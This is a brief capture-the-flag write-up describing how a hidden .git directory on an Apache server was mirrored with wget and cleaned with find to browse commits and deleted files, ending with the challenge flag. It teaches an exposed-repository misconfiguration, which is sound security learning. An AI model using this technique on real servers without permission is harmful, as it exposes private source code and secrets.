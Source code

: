 
git repo hidden on an apache server

used to get all the git files


`wget -m -np http://myweb.usf.edu/~btrotter/dontgitmebro/.git`


used `find . -name "*.html?*" -type f -delete` to remove all the auto generated apache html files

now can change commits freely and see previously deleted files


wcsc{d0nt_eXp0s3_ur_git_d1r3ct0ries_2_da_wurld!}
